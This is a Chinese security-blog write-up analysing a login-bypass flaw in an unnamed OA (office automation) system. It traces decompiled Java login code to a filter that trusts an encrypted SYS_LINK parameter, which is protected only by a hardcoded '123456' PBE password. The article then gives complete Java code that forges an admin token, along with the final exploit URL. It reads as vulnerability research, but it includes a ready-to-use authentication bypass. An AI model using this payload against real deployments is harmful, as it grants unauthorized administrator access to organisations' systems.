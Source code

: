 

# 奇安信攻防社区 - 某 oa 登录绕过分析

### 某 oa 登录绕过分析

本文会先从正常登录逻辑分析，从而找到该系统认证的过程和方式，进而搜索相关接口找到其他登录接口，进而利用漏洞绕过登录

本文会先从正常登录逻辑分析，从而找到该系统认证的过程和方式，进而搜索相关接口找到其他登录接口，进而利用漏洞绕过登录

# 0x01 正常登录逻辑分析

首先先来看正常的登录流程，我们输入用户名和密码，然后抓包

![image-20231121095258925](assets/1702880530-bb1e19748ed7983814cbf464bc37a58a.jpg)

可以看到请求了`/login/login_valid.jsp`，然后找对对应的文件

![image-20231121095415803](assets/1702880530-573d82bedb8c96c340b12f09c7d61f86.jpg)

可以看到这里取了 post 发送的数据，并调用`userLoginService.login`方法返回一个 Map 对象，返回有关登录结果或其他信息的键值对，所以这个对象就是处理登录的逻辑，我们继续跟进这个方法。

![image-20231121095926062](assets/1702880530-da526ab98f3d9e3bf660a46d409387c9.jpg)

在`userLoginService.login`方法中，可以看到他继续调用了`loginByRequest`方法

![image-20231121101110358](assets/1702880530-b8e12f8700f129e60212517d770a5658.jpg)

在`loginByRequest`中就是一般登陆验证的正常操作，将 userName 和 password 带入`userLogic.getUser`中进行验证，这里会通过 sql 语句进行查询判断，如果验证成功则会设置对应的 cookie，之后不做过多赘述。

# 0x02 寻找漏洞

经过观察和分析，发现从这里是不好下手的，各种验证措施也比较完善，所以我们从其他地方下手。

这里我们打开这个类的的结构，查看其中所有的方法，我们发现登录方式不止可以通过`loginByRequest`，还有其他的方法：

![image-20231121101759018](assets/1702880530-d9e3b6224152db94d1b7b7837d97e5c8.jpg)

通过传入的参数和方法名可以推断出该系统有 4 中登录认证方式：分别是通过域登录 (loginByAD)，统一身份认证登录 (loginByCas)，用户名密码普通登录 (loginByRequest) 以及直接通过用户名登录 (loginByUserName)

其中通过域登录由于无法获取域账户而首先放弃研究，所以主要看统一身份认证登录 (loginByCas) 是怎样实现的

![image-20231121110224140](assets/1702880530-62fd090f36bbab841adc4455797310fc.jpg)

可以看到 loginByCas 最后还是调用的 loginByUserName

![image-20231121111425394](assets/1702880530-f6be27fd3a185cc189690d58074c47e1.jpg)

在 loginByUserName 也是直接通过判断用户名是否在数据库中，如果存在，后续的操作和前面 loginByRequest 的流程一样。

所以接下来的思路就是寻找直接调用了`loginByUserName`或`loginByCas`的地方，这里使用 jadx-gui 进行搜索，因为 idea 不支持直接搜索 jar 包中的代码内容，当然也可以将 jar 包反编译后进行搜索。

![image-20231121150820308](assets/1702880530-9e843b97e6d058ff40d3e3b304843d04.jpg)

这里搜索到`loginByUserName`的调用方法只有在刚刚那几个方法中，没啥用处

![image-20231121150843464](assets/1702880530-f3130451157d6e93d3dfa83796d2d1af.jpg)

搜索`loginByCas`调用的方法就多了，这里我找了上方红框中的一个点，在`ControllerFilter`中的`doFilter`方法中。(另外其他接口也可以造成登录绕过，有兴趣的师傅可以自己动手分析)

![image-20231121153806745](assets/1702880530-0dee19104dffb39be5b28c8811b9861d.jpg)

经过对代码分析，发现要触发这里的`loginByCas`方法需要 url 以`.ln`结尾，然后从`SYS_LINK`参数中取到的值，并使用 `SYS_LINK` 的值获取一个 `LinkMeta` 对象，然后从 `LinkMeta` 中获取用户对象，最后将获取的用户名带入到`loginByCas`中进行登录。这里的`SYS_LINK`可控，所以主要看`LinkUtil.getLinkMeta`方法中的处理逻辑。

![image-20231121170710471](assets/1702880530-e823285aaec2d0244e2f7abeefd7f5df.jpg)

在`getLinkMeta`中，这里首先对传入的值进行 hex 解码，使用`EncrypUtil.decrypt`进行解密，然后以`||`进行分割，分割的三个值分别为跳转的日期，时间，用户名。

所以这里如果我们构造参数为`/servlet/main||2024-01-01||admin`，就可以使得分割后第三个元素被`setUser`，进而传递到下面作为`loginByCas`从而进行的登录，注意时间要在当前的时间之后，因为在`doFilter`会对时间做校验。

接下来看一下他的加密方法

![image-20231121154521814](assets/1702880530-9eaaf4c8526425ed08f4bdef7cce20ba.jpg)

![image-20231121154457430](assets/1702880530-ef0729df9b7d1fc1da6e46567497de7c.jpg)

可以看到这里的加密方法是`PBEWithMD5AndDES`，并且知道密码是`123456`

> PBE（Password Based Encryption，基于口令加密）算法是一种基于口令的加密算法，其特点在于口令是由用户自己掌握的，采用随机数杂凑多重加密等方法保证数据的安全性，PBE 算法没有密钥的概念，密钥在其它对称加密算法中是经过算法计算得出来的，PBE 算法则是使用口令替代了密钥。

所以我们只需要调用他的加密方法即可：

```java
import org.jasypt.util.text.BasicTextEncryptor;

import java.io.UnsupportedEncodingException;
import java.math.BigInteger;
import java.nio.charset.StandardCharsets;

public class EncrypUtil {
    public static String password = "123456";
    public static Boolean stringOutputTypeBase64 = false;

    public static String encrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String myEncryptedText = textEncryptor.encrypt(text);
        return myEncryptedText;
    }

    public static String decrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String plainText = textEncryptor.decrypt(text);
        return plainText;
    }
    private static String bytesToHex(byte[] bytes) {
        BigInteger bigInt = new BigInteger(1, bytes);
        return bigInt.toString(16);
    }

    public static void main(String[] args) throws UnsupportedEncodingException {
        String result = encrypt("/servlet/main||2024-01-01||admin");
        System.out.println("encrypt String: " +result);
        byte[] bytes = result.getBytes(StandardCharsets.UTF_8);
        String hexEncodedString = bytesToHex(bytes);
        System.out.println("Hex Encoded String: " + hexEncodedString);
    }
}
```

![image-20231121172133989](assets/1702880530-773d24a1e5bf40fef7f682f918f7a0ad.jpg)

（这里注意如果你运行的结果和我的不一样也是没问题的，因为该算法每次加密后的结果都不一样）

构造完 payload 就要找到如何可以触发，由于这段代码在`doFilter`中，所以我们可以首先在`web.xml`中搜索他哪些路由会经过该过滤器，经过搜索发现以下 url 后缀中的路由都会经过该过滤器，正好包括`.ln`结尾的路由。

![image-20231121151554400](assets/1702880530-68e7bf6d8602bdcaa2b5f7fd3c564da3.jpg)

# 0x03 漏洞复现

所以最后我们构造的 payload 为：

```php
/1.ln?SYS_LINK=736a356b37475635563576783561796242424c31554c4c6c6a585767516b757338386178663935616f59626e584b65503051462b2b4155335535547a41684734
```

![image-20231127151650911](assets/1702880530-53e2a02f72743b0e02b8aee94cf7ab71.jpg)

![image-20231127151538787](assets/1702880530-29a37434f3855e418d7722f32f75dc3a.jpg)

